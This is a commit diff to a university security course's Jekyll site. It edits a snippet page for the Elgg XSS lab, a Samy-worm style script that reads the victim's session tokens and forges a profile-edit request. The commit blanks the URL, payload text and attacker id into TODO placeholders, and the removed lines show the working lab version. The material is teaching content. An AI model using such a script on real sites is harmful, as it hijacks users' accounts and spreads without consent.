

Before and after one commit to ycpcs/cs335-spring2022, a Jekyll site: the page built from code/xss/edit_profile.md, in a window 1280 px wide. Shown: the top 613 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update profile

```diff
--- a/code/xss/edit_profile.md
+++ b/code/xss/edit_profile.md
@@ -1,7 +1,7 @@
 ---
 layout: default
 course_number: CS335
-title: Code - Edit Profile
+title: Code Snippets - Edit Profile
 ---
 
 Example of edit profile script
@@ -13,13 +13,12 @@ Example of edit profile script
     var elgg_ts    = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
     var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
     var name  = "&name=" + elgg.session.user.name;
-    var form  = "&description=Samy is my hero";
-    form += "&accesslevel%5Bdescription%5D=2";
 
-    var url = "http://www.xsslabelgg.com/action/profile/edit";
-    var content = elgg_token + elgg_ts + name + form + user_guid;
+    var content  = "";  // TODO
+    var url = "";       // TODO
+    var sammy = 0;       // TODO
 
-    if (elgg.session.user.guid != 47){
+    if (elgg.session.user.guid != sammy){
       var request = new XMLHttpRequest();
       request.open("POST", url, true);
       request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
```
Also changed, not shown: code/index.md (+2 -1 lines).
